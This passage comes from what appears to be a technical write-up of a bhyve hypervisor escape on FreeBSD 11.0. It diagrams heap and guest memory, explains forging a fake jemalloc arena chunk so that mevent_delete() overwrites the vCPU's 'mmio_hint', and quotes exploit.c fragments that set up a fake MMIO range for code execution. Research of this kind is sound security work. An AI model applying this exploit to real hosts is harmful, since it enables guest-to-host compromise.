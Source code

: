 +---------------------------+-------+-----------------------------------+
|           Heap            |       |           Guest Memory            |
|                           |       | +----------------------------+    |
|  +---------+  +--------+  | Guard | | 2MB Huge Page              |    |
|  |vga_softc|  |tcache_s|  | Page  | | +-------------+ +--------+ |    |
|  |         |  | vCPU0  |  |       | | |     Fake    | | mevent | |    |
|  +---------+  +----+---+  |       | | |arena_chunk_s| |        | |    |
|                    |      |       | | +-------------+ +----^---+ |    |
|                    |      |       | +----------------------+-----+    |
+--------------------+------+-------+------------------------+----------+
                     |                                       |           
                     |                                       |           
                     +---------------------------------------+    


Now arbitrary pointer can be freed to overwrite 'mmio_hint' using
mevent_delete() without a segmentation fault. The jemalloc version used in
FreeBSD 11.0 does not check if pageind > map_bias, unlike the one seen in
android [6]. Hence the fake chunk can also be set up in a single page like
below:

. . .
        arena_chunk = (struct arena_chunk_s *)shared_gva;
        arena_chunk->map_bits[-map_bias].bits = (4 <<
CHUNK_MAP_BININD_SHIFT);

        fake_tbin_hva = shared_hva + sizeof(struct arena_chunk_s);
        fake_tbin_gva = shared_gva + sizeof(struct arena_chunk_s);
. . .

Since the address to be freed is part of the same page as the chunk header,
the 'pageind' value would be 0. 'chunk->map_bits[pageind-map_bias]' in
arena_bitselm_get_mutable() would end up accessing 'extent_node_t node'
element of 'arena_chunk_s' structure since 'pageind-map_bias' is negative.
One has to just set up the bin index here for a successful free().

----[ 3.8 - Code execution using MMIO vCPU cache

The MMIO cache 'mmio_hint' of vCPU0 is overwritten during mevent_delete()
with a pointer to fake mmio_rb_range structure. The fake structure is set
up like below:

---[ exploit.c ]---
. . .
        /* pci_emul_fallback_handler will return without error */
       mmio_range_gva->mr_param.handler  = (void
*)pci_emul_fallback_handler;
       mmio_range_gva->mr_param.arg1     = (void *)0x4444444444444444;   //
arg1 will be corrupted on mevent delete 
       mmio_range_gva->mr_param.arg2     = 0x4545454545454545;           //
arg2 is fake RSP value for ROP. Fix this now or later
       mmio_range_gva->mr_param.base     = 0;
       mmio_range_gva->mr_param.size     = 0;
       mmio_range_gva->mr_param.flags    = 0;                            
       mmio_range_gva->mr_end            = 0xffffffffffffffff;
. . .
